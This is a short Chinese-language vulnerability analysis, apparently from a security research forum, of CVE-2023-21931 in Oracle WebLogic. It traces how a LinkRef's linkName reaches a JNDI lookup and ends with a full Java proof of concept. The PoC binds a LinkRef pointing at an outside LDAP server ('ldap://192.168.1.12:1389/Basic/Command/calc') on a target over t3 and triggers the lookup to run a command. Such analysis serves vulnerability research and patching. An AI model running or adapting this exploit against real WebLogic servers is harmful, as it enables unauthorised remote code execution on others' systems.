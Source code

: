 CVE-2023-21931
--------------

### 漏洞分析

这个漏洞和CVE-2023-21839的差不多，区别在于`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中

![image-20240221172407635](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-205ae3bf605c869b917b9fd18d3009930d24c7e2.png)

该漏洞走的是另外一个分支，如果绑定的对象继承了LinkRef类则进入这个分支

看到下面的`boundObject = ic.lookup(linkName)` , 如果能控制这个`linkName`就可以造成JNDI注入了

跟进`getLinkName()`

![image-20240221172902170](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-32387da53a2be1ae1d388aa9c51ef412e52f31f5.png)

继续跟进getContent()

![image-20240221172949510](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-85d8ef526df089c02958b8fdeaad55b4457a71c2.png)

可以看到这个contents是通过构造函数赋值的，是LinkRef构造函数中传入的`linkName`

![image-20240221173040840](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-a758954aac96404958f7b1b18b717a6b954b4e04.png)

所有这个poc很简单

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference的jndiEnvironment属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        //LinkRef类使用  
        LinkRef f = new LinkRef("ldap://192.168.1.12:1389/Basic/Command/calc");           //CVE-2023-21931  

        // 远程绑定ForeignOpaqueReference对象  
        c.rebind("sectest", f);  

        // lookup查询ForeignOpaqueReference对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```
